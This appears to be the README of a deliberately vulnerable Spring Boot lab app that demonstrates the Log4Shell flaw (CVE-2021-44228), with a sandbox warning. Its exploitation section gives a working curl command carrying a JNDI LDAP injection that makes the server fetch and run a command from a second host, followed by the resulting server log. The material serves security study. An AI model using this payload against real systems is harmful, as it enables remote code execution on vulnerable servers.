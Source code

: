 # Log4Shell vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, known as [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and
* JDK 1.8.0_181

## Running the application

[TODO]

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'user: ${jndi:ldap://192.168.1.4:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the warning in the server logs, that indicates that a JNDI lookup was tried:

```
2021-12-31 21:30:29,062 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://192.168.1.4:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=]. javax.naming.CommunicationException: 192.168.1.4:1389 [Root exception is java.net.ConnectException: Connection refused]
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

